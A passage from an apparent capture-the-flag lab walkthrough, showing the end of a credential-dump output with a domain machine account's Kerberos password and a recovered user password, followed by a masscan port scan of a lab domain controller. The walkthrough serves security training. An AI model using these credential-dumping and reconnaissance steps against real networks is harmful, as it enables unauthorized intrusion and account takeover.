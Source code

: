 ```powershell
	 * Username : SHIELD$
	 * Domain   : MEGACORP
	 * Password : (null)
	kerberos :	
	 * Username : shield$
	 * Domain   : MEGACORP.LOCAL
	 * Password : cw)_#JH _gA:]UqNu4XiN`yA'9Z'OuYCxXl]30fY1PaK,AL#ndtjq?]h_8<Kx'\*9e<s`ZV uNjoe Q%\_mX<Eo%lB:NM6@-a+qJt_l887Ew&m_ewr??#VE&
	ssp :	
	credman :	

```

And we find the password `Password1234!` for domain user `Sandra`.

## Pathfinder (Kerberos, LDAP, WinRM)

### Enumeration

```
# masscan -p 1-65535 10.10.10.30 -e tun0 --rate=1000
Starting masscan 1.3.2 (http://bit.ly/14GZzcT) at 2021-03-15 01:33:19 GMT
Initiating SYN Stealth Scan
Scanning 1 hosts [65535 ports/host]
Discovered open port 49664/tcp on 10.10.10.30                                  
Discovered open port 49677/tcp on 10.10.10.30                                  
Discovered open port 3268/tcp on 10.10.10.30                                   
Discovered open port 593/tcp on 10.10.10.30                                    
Discovered open port 49676/tcp on 10.10.10.30                                  
Discovered open port 53/tcp on 10.10.10.30                                     
Discovered open port 49667/tcp on 10.10.10.30                                  
Discovered open port 49698/tcp on 10.10.10.30                                  
Discovered open port 445/tcp on 10.10.10.30                                    
Discovered open port 5985/tcp on 10.10.10.30                                   
Discovered open port 88/tcp on 10.10.10.30                                     
Discovered open port 636/tcp on 10.10.10.30                                    
Discovered open port 49683/tcp on 10.10.10.30                                  
Discovered open port 49717/tcp on 10.10.10.30                                  
Discovered open port 47001/tcp on 10.10.10.30                                  
Discovered open port 3269/tcp on 10.10.10.30                                   
Discovered open port 464/tcp on 10.10.10.30                                    
Discovered open port 49672/tcp on 10.10.10.30                                  
Discovered open port 9389/tcp on 10.10.10.30                                   
Discovered open port 139/tcp on 10.10.10.30                                    
Discovered open port 49666/tcp on 10.10.10.30                                  
Discovered open port 135/tcp on 10.10.10.30                                    
Discovered open port 389/tcp on 10.10.10.30                                    
Discovered open port 49665/tcp on 10.10.10.30               
```

Port 88 is typically associated with Kerberos and port 389 with LDAP,  which indicates that this is a Domain Controller. We note that WinRM is  enabled on port 5985.
